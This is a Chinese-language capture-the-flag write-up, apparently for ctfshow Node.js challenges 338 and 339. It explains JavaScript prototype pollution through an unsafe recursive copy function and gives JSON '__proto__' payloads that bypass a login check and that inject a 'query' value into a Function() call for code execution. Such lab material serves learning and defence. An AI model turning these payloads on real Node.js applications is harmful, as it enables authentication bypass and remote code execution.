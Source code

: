 ![](https://i.loli.net/2021/09/07/qEbjuS4e3rYRZBd.png)

此处`secert`为数组，而`copy`方法的操作对象也是数组，那么利用`post`请求将`req.body`传入参数，再利用`user`污染数组原型，则当`secert`找不到`ctfshow`属性时就会往原型找，从而使得判断条件为真

payload：

```json
{"__proto__":{"ctfshow":"36dboy"}}
```

抓包，点击登录，然后将帐号密码的数据改为payload传入即可
![](https://i.loli.net/2021/09/08/dsagS63pNKHkUXE.png)



## 339 原型链污染+

> routes/login.js
>
> ```js
> var flag='flag_here';
> var secert = {};
> var sess = req.session;
> let user = {};
> utils.copy(user,req.body);
> if(secert.ctfshow===flag){
>  res.end(flag);
> }
> ```
>
> 因为不知道flag，因此secert.ctfshow===flag就难以实现了
>
> 可以看到多了一个api.js
>
> ```js
> router.post('/', require('body-parser').json(),function(req, res, next) {
> res.type('html');
> res.render('api', { query: Function(query)(query)});
> 
> });
> ```
>
> 可以通过参数污染控制query

预期解：

```js
function copy(object1, object2){
   for (let key in object2) {
       if (key in object2 && key in object1) {
           copy(object1[key], object2[key])
       } else {
           object1[key] = object2[key]
       }
   }
 }
var user ={}
body=JSON.parse('{"__proto__":{"query":"return 111"}}');
copy(user,body)
console.log(query)
```
